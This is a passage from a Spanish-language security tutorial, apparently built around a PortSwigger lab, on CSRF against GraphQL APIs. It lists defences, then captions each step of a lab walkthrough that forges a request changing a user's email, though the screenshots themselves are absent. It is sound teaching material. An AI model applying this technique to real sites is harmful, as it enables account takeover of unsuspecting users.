   * Asegúrate de que el endpoint de GraphQL acepte únicamente solicitudes `POST` con un `Content-Type` de `application/json`.
2. **Implementar Tokens CSRF**:
   * Requiere un token CSRF único y específico para cada sesión.
   * Valida el token en el servidor para asegurarte de que coincida con la sesión del usuario.
3. **Limitar Métodos HTTP**:
   * Deshabilita métodos `GET` y `POST` inseguros para operaciones de GraphQL.
4. **Configurar Cookies con el Atributo `SameSite`**:
   * Configura las cookies con `SameSite=Strict` o `SameSite=Lax` para prevenir solicitudes entre sitios.
5. **Configuración de CORS**:
   * Configura las políticas de Cross-Origin Resource Sharing (CORS) para restringir los orígenes permitidos.

***

### **CSRF en GraphQL vs. CSRF Tradicional**

Los pasos para construir y entregar un exploit CSRF en GraphQL son los mismos que en aplicaciones web tradicionales. Para obtener una guía detallada, consulta **Cómo Construir un Ataque CSRF**.

Las APIs de GraphQL suelen amplificar el impacto de los ataques CSRF porque:

* Permiten consultas complejas y con múltiples operaciones en una sola solicitud.
* Las operaciones sensibles a menudo son directamente accesibles a través de la API.

#### EJEMPLO PRÁCTICO




<figure><figcaption></figcaption></figure>

_Podemos ver una web aparentemente normal, vamos a iniciar sesión._

<figure><figcaption></figcaption></figure>

_Vemos la opción de cambiar el email_

<figure><figcaption></figcaption></figure>

_Interceptamos la solicitud_

<figure><figcaption></figcaption></figure>

_Enviamos una introspección._

<figure><figcaption></figcaption></figure>

_Guardamos la Req en el site map._

<figure><figcaption></figcaption></figure>

_Vemos la solicitud para cambiar el email_

<figure><figcaption></figcaption></figure>

_Ahora vamos a crear nuestra propia req, para esto vamos a cambiar el método a GET_

<figure><figcaption></figcaption></figure>

_Ahora lo vamos a cambiar a POST_

<figure><figcaption></figcaption></figure>

_Nos vamos a la req no modificada y vamos a coger estos dos campos_

<figure><figcaption></figcaption></figure>

_Ahora vamos a url encodear todos lo caracteres_

<figure><figcaption></figcaption></figure>

_Ahora vemos que se nos hace_

<figure><figcaption></figcaption></figure>

_Generamos esto_

<figure><figcaption></figcaption></figure>

_Vemos que ha funcionado_

https://portswigger.net/web-security/learning-paths/graphql-api-vulnerabilities
